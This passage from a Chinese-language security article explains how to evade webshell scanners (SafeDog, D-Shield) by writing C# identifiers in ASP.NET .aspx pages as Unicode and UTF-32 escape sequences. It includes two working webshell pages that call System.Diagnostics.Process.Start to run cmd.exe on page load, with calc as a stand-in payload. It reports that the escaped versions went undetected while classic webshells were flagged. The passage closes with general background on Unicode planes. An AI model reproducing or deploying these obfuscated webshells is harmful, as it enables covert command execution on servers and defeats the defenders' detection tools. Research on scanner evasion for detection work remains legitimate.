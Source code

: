 还可以对完全限定路径做编码，注意 `.` 不能编码为 `\u002e`，否则编译器会抛出异常，如下编码 System.Diagnostics.Process.Start，即使换行也不影响运行

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

    public void Page\_load()

    {

        \\u0053\\u0079\\u0073\\u0074\\u0065\\u006d.

            \\u0044\\u0069\\u0061\\u0067\\u006e\\u006f\\u0073\\u0074\\u0069\\u0063\\u0073.

            \\u0050\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073.

            \\u0053\\u0074\\u0061\\u0072\\u0074("cmd.exe","/c calc");

    }

</Script>

分别用安全狗和D盾测试免杀效果，同目录下还有另外3个文件，aspx.aspx 是经典Jscript一句话木马，aspxspy.aspx 看文件名就知道是经典大马，xls.aspx 是基于xml文档实现的小马，对比被杀的3个Webshell，Unicode编码后的webshell免杀效果非常理想，如下图unicode.aspx

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yibg61GNvEncE4xHQmJLXMW8ys5jLsYrNCA2tQibz3SfyLf8nsKwYKln9u77z1qibmUYKM0M49LibVKdA/640?wx_fmt=png)

2.5 UTF-32字符集
-------------

Unicode 的编码空间为 0xFFFF - 0x10FFFF，那可以想到的最简单的办法就是让每个码位对应一个 32 位 (4 bytes) 二进制数，这就是 UTF-32 编码。所以在 UTF-32 中，每个字符占用 4 个字节，它是一种定长编码格式，使用32位表示Unicode中的一个码位。由于Unicode的码位实际只用了21位，所以多余部分前导0。例如字符小写字母a，对应码位为`\x61`，存储的字节序列为：`\x00000061`。如下代码保存为U32.aspx，尝试用D盾扫描，只扫出上述3个经典webshell，并未检测出UTF32编码后的恶意样本

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

    System.Diagnostics.Process.

        \\U00000053\\U00000074\\U00000061\\U00000072\\U00000074("cmd.exe","/c calc");

    }

</script>

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yibg61GNvEncE4xHQmJLXMW88QJby07AhqicjsoMhwaHsOdUNOGDBer8KCtlJ8ymFicIwxuhGfa5fOyQ/640?wx_fmt=png)

Unicode标准中，码位的表示方法通常是使用它们的十六进制，并加上`U+`前缀。码位的分类方法多种多样。我们通过下表来阐明Unicode标准使用的几种平面和一些术语。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yibg61GNvEncE4xHQmJLXMW8bwXnsHcgoZWKanqEp8klDGe88pTic0ub0Vq9mHa39qCRg9o02bO4Fwg/640?wx_fmt=png)

3.1 基本多语言平面
-----------

基本多语言平面全称Basic Multilingual Plane，简称 BMP，也是Unicode编码中最重要的平面包含了几乎所有常用的系统和符号，码位范围U+0000 - U+FFFF，除了常见的符号外在 BMP中还有拉丁字符和其他欧洲字符，如希腊、西里尔字母、非洲、亚洲字符，此外BMP中保留了自定义字符的私人使用空间。另外又细分了163块内容，以下列出其中的6块内容用于举例说明  
